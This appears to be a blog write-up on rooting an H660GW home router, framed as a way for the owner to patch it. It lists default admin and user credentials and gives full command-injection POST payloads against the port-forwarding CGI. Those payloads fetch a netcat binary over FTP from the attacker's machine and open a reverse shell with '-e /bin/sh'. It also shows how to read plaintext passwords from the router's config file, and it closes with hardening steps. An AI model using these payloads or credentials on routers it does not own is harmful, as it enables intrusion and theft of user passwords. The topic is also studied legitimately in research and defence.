

Getting root access through RCE on H660GW
Why?
The purpose for this was to gain admin access to pach the router - to block or change default credentials, block ssh and telnet and so on.
Default credentials - CWE-1392
In general H660GW might use following credentials:
(format is <username>:<password>)
user:user or user:1234 (1234 is factory default)
admin:vertex25ektks123 or admin:vertex25
Also there is a guest account but seems to be disabled by default:
guest:1234
If telnet or SSH is enabled try accessing it with admin credentials. The ssh on the server uses old algorithm so this is needed to connect over ssh:
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 admin@192.168.1.1
For the web interface the default user login details are:
user:user
If you have only user access to the web interface (as I had) you can still get admin access with RCE.
RCE
This is expanding on Authenticated Code Execution in DASAN routers post by Wojciech Reguła.
That post describes the basic injection but not how to get access based on it.
The commands on the H660GW are very limited and gaining access through the RCE isn’t that simple.
There is a busybox on the router. After gaining access running command busybox shows available commands:
BusyBox v1.00 (2019.11.04-10:05+0000) multi-call binary
Usage: busybox [function] [arguments]...
or: [function] [arguments]...
BusyBox is a multi-call binary that combines many common Unix
utilities into a single executable. Most people will create a
link to busybox for each function they wish to use, and BusyBox
will act like whatever it was invoked as.
Currently defined functions:
[, arp, arping, ash, awk, basename, busybox, cat, chmod, cp, crond, crontab, cut, date, dd, df, dirname, dmesg, echo, egrep, env, expr, false,
fgrep, find, free, ftpget, ftpput, getty, grep, gunzip, gzip, head, hexdump, hostname, ifconfig, init, insmod, ip, kill, killall, klogd, ln,
login, ls, lsmod, mkdir, mknod, modprobe, more, mount, mv, netstat, nslookup, passwd, pidof, ping, ping6, ps, pwd, reboot, rm, rmdir, rmmod,
route, sed, sh, sleep, sort, sync, sysctl, syslogd, tac, tail, tar, taskset, test, tftp, top, traceroute, true, udhcpc, udhcpd, umount, uname,
uniq, uptime, usleep, vi, wc, which, xargs, yes, zcat
As you can see not many commands that can be used for access. There is no wget or curl which we could use to move files to the router. As a side note although ssh is there, scp doesn’t seem to work. But there are FTP related commands.
Exploitation
Open Burp Suite and login to the web page with user login (user:user)
Navigate to the Fiewall > NAT > Port Forwarding
Now create any rule in the Port forwarding to grab the request
I like to use some random port that nothing is using.
In Burp in the history look for the post request to /cgi-bin/adv_nat_virsvr.asp
Now you can test the injection with ping. But don’t use just ping (you might crash your router…). Add -c flag to it like so:
ping -c 2 <IP of your PC>
Open Wireshark and filter requests to icmp && ip.addr==192.168.1.1
Then move the POST request found earlier to Repeater in Burp Suite and change the data from something like this:
isLocalPortSupport=Yes&editFlag=1&delFlag=0&editnum=0&SelectProtocol=TCP&start_port=25&end_port=25&Addr=192.168.1.166&local_sport=25&local_eport=25&ACLPort=N%2FA&AccoutAclSupported=N%2FA
to this:
isLocalPortSupport=Yes&editFlag=1&delFlag=0&editnum=0&SelectProtocol=TCP&start_port=25&end_port=25&Addr=192.168.1.166;ping+-c+2+192.168.1.100&local_sport=25&local_eport=25&ACLPort=N%2FA&AccoutAclSupported=N%2FA
So the injection is in Addr just:
;ping+-c+2+<IP of your machine>
We are adding ping as another command in there.
Up until this point it’s all the same as described in the vulnerability linked earlier.
One of the very problematic things with this injection was that somewhere in the website code the > character is used as a delimiter.
So most reverse shells don’t work because you cannot redirect easily.
Because of that I’ve give up on sh shells completely and instead used ftp to transfer netcat there.
If you were to execute uname -a you’d see that router is using MIPS architecture.
Thus we need specific netcat binary from here: netcat
Create ftp server in the same directory as your netcat.
You can create makeshift FTP server with pyftpdlib.
I looked for similar quick and simple method as hosting webserver with python3 -m http.server 1337.
First install pyftpdlib:
pip install pyftpdlib
Then run the server on port 21:
python3 -m pyftpdlib -p 21
Obviously your firewall must allow access on port 21 for this to work.
Download the netcat
Next you need to execute following command on the router to download netcat into the /tmp/ folder on the router:
ftpget 192.168.1.100 /tmp/netcat netcat
So the injection is:
;ftpget+192.168.1.100+/tmp/netcat+netcat
Thus the payload is:
isLocalPortSupport=Yes&editFlag=1&delFlag=0&editnum=0&SelectProtocol=TCP&start_port=25&end_port=25&Addr=192.168.1.166;ftpget+192.168.1.100+/tmp/netcat+netcat&local_sport=25&local_eport=25&ACLPort=N%2FA&AccoutAclSupported=N%2FA
On your FTP server you should see a connection and file retrieval for the netcat. This will confirm the file transfer was successful
Get the reverse shell
There is no bash so it must be sh shell.
On attacker prepare listener:
nc -nlvp 1234
Obviously in following commands 192.168.1.100 is my attacking machine IP in local network - change it to yours.
On the router run
/tmp/netcat 192.168.1.100 1234 -e /bin/sh &
Which encoded looks like this:
;/tmp/netcat+192.168.1.100+1234+-e+/bin/sh+%26
and whole payload is:
isLocalPortSupport=Yes&editFlag=1&delFlag=0&editnum=0&SelectProtocol=TCP&start_port=25&end_port=25&Addr=192.168.1.166;/tmp/netcat+192.168.1.100+1234+-e+/bin/sh+%26&local_sport=25&local_eport=25&ACLPort=N%2FA&AccoutAclSupported=N%2FA
You should see a connection open to the netcat listener. 
Reading all passwords as root - CWE-256: Plaintext Storage of a Password
Because you effectively have root you can read the config file:
cat /var/romfile.cfg | grep passwd
this should give you all the passwords for all users. No encryption whatsoever.
The admin passwords are base64 encoded so you can easily decode them.
The web_passwd is the password for the website.
The console_passwd is the password for telnet and ssh.
You could just copy the /var/romfile.cfg to your computer. But I was unable to use ftpput with my simple python FTP. It might be possible with legit connection with correct permissions on files.
Patching the router as Admin
I coudn’t find any way to change the console_passwd permanently so instead I’ve change the admin password in web interface and disabled all other interfaces.
Go to Maintanance > Administration
There you can uncheck all checkboxes for User and just leave LAN for admin:
You can also change admin password to the web interface to more secure here.
Then apply the changes.
Next go to Maintanance > ACL
Activate ACL and uncheck all WAN interfaces. Then in LAN section disable everything except Web Access. I guess you can leave the ICMP access, which I presume just lets you ping the router.
Then push the Apply button.
Now cleanup after your access through shell.
First go to /tmp in your reverse shell and delete netcat:
rm netcat
Then in web interface go to:
Navigate to the Fiewall > NAT > Port Forwarding
Here delete the rule that was left over after the RCE
Finally go to Save/Reboot and click Save all configuration
You can then scan your router with nmap to confirm the ports are closed. You should see that ssh / telnet are shown as “filtered”